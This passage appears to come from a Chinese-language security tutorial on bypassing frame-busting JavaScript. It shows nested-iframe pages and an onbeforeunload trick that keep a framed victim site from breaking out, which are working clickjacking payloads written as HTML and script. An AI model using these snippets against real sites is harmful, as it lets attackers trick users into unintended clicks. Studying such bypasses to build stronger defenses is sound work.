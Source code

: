 ```
```

## 0x02 绕过的几种方式

对于使用 parent.location 来防御的可以使用多层嵌套的方式绕过。

### 一、例如防御代码为：

```
if(top.location!=self.location){
     parent.location = self.location;
} 
```

建立两个页面：

1.html 代码为：

```
<iframe src="2.html"> 
```

2.html 代码为：

```
<iframe src="http://www.victim.com"> 
```

访问 1.html 之后可以看到页面并无跳转等动作。

![`static.wooyun.org/20141017/2014101711515250154_png.jpg`](img/img1_u112_png.jpg)

### 二、onBeforeUnload 函数的利用：

onBeforeUnload 的介绍以及各种浏览器的支持情况请见：

http://w3help.org/zh-cn/causes/BX2047

如下的防御代码：

```
if(top != self) top.location.replace(location); 
```

新建立页面，代码如下：

```
<script>
var framekiller = true;
window.onbeforeunload = function() { if(framekiller) { return
"Write something here to keep people stay!";} };
</script>
<iframe src="http://www.victim.com/"> 
```
